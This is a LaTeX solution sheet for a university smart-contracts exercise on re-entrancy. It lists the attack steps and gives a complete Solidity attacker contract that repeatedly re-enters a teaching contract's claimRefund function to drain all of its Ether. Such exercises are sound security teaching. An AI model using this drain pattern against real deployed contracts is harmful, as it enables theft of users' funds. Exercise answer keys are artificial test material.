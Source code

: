 \documentclass[12pt]{article}
\title{Smart Contracts Exercise 05: \\ Re-Entrancy -- Solution}
\author{}
\date{}
\begin{document}
\maketitle

\noindent
The solved exercise 5 can be found in this \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/05-Re-Entrancy/solution/solution-code?ref_type=heads}{GitLab repository}.

\subsection*{Task 1: Cat Charity Hijinks}

\begin{enumerate}
  \item The attacker sends a small donation to the \texttt{CatCharity} contract to record their donation.
  \item The attacker immediately calls the \texttt{claimRefund} function, triggering the re-entrancy vulnerability.
  \item While the \texttt{claimRefund} function is executing, the attacker's contract falls back into the \texttt{claimRefund} function multiple times, draining the \texttt{CatCharity} contract's Ether balance.
  \item This attack continues until the charity's balance is completely drained, and the funds are transferred to the attacker.
\end{enumerate}

\begin{lstlisting}[language=Solidity]
contract CatAttacker {
    CatCharity public catCharity;

    constructor(address _catCharityAddress) {
        catCharity = CatCharity(_catCharityAddress);
    }

    /**
     * @notice Initiates the re-entrancy attack.
     * @dev We donate a small amount so that we (the Attacker contract)
     *      have a 'donation' recorded, then immediately claim the refund,
     *      re-entering until the charity's entire balance is drained.
     */
    function attack() external payable {
        // Step 1: Donate a tiny bit from this contract
        catCharity.donate{value: msg.value}();

        // Step 2: Start the refund loop
        catCharity.claimRefund();

        // Step 3: Send the money back to player
        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }

    // Fallback triggered whenever this contract receives Ether
    receive() external payable {
        // If there's still ETH left in the CatCharity, re-claim
        if (address(catCharity).balance > 0) {
            catCharity.claimRefund();
        }
    }
}
\end{lstlisting}
\end{document}
